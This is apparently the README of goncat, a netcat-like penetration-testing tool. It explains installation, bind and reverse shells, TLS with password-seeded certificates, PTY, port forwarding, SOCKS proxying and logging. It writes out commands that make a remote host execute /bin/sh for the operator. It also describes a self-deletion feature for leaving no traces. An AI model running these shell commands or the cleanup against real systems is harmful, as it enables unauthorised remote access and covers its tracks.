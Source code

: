 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience.
Third, it can be used for tunneling.
For now it supports local and remote port forwarding as well as barebones SOCKS (TCP CONNECT and UDP ASSOCIATE supported, but no authentication).
Lastly, there are a few other convenience features such as session logging
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:

*   Reverse shell
    *   On your machine: `goncat master listen --port 12345 --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
    *   Remote: `goncat slave connect --host 11.22.33.44 --port 12345` to connect the remote side as a slave, which will execute `/bin/sh`.
*   Bind shell
    *   Remote: `goncat slave listen --port 12345` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
    *   On your machine: `goncat master connect --host 55.66.77.88 --port 12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Advanced features can be enabled with additional flags:

*   Encryption: add `--ssl` on both ends to enable TLS
*   Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
*   PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
*   Local TCP port forwarding: as master, add `-L 8443:google.com:443` to open a local port 8443 on the master side, any connection to it will
    be forwarded through the slave to `google.com:443`
*   Remote TCP port forwarding: as master, add `-R 8443:google.com:443` to open a local port 8443 on the slave side, any connection to it will
    be forwarded through the master to `google.com:443`
*   SOCKS TCP/UDP proxy: as master, add `-D 127.0.0.1:1080` to create a SOCKS proxy, through which you can use the slave side (now with UDP support)
*   Logging: as master, add `--log /tmp/log.txt` to log the session to a file
*   Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only.
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky.
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.
